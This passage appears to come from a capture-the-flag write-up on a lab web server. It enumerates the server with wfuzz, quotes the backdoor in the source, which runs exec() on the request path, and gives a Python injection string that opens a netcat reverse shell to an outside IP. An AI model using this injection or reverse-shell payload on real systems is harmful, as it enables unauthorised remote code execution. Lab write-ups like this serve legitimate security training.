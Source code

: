Appears to be some kind of `http` service. Here's how it looks like.

{% include image.html image_alt="e62420de.png" image_src="/471fc23c-9a1d-4b65-974a-92b516907d9f/e62420de.png" %}

Hmm. Looks like the source code for the web server is available somewhere...

### Directory/File Enumeration

Let's fuzz the directory mentioned above with `wfuzz`.

```
# wfuzz -w common.txt -t 10 --hc 404 http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
Total requests: 949

==================================================================
ID      Response   Lines      Word         Chars          Payload    
==================================================================

000259:  C=200    170 L      498 W         5892 Ch        "develop"
000342:  C=404      6 L       14 W          175 Ch        "filter"^C
Finishing pending requests...
```

There's no point to show the entire source code. But I do want to draw your attention to the backdoor that's included in the source code, in line 138 and 139.

```python
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

`exec()` is a built-in function that *supports the dynamic execution of Python code*.

### Low-Privilege Shell

Armed with this knowledge, we can execute remote Python code like so.

```
';import os;os.system("rm -rf /tmp/p; mknod /tmp/p p; bash </tmp/p | nc 10.10.15.60 1234 >/tmp/p");x='
```

Of course, I'm assuming that traditional `nc` exists and we need to `urlencode` the above string. Simply enter the encoded string into the address bar and we should have our shell.

{% include image.html image_alt="795b0b2c.png" image_src="/471fc23c-9a1d-4b65-974a-92b516907d9f/795b0b2c.png" %}

Bingo.

### Getting `user.txt`
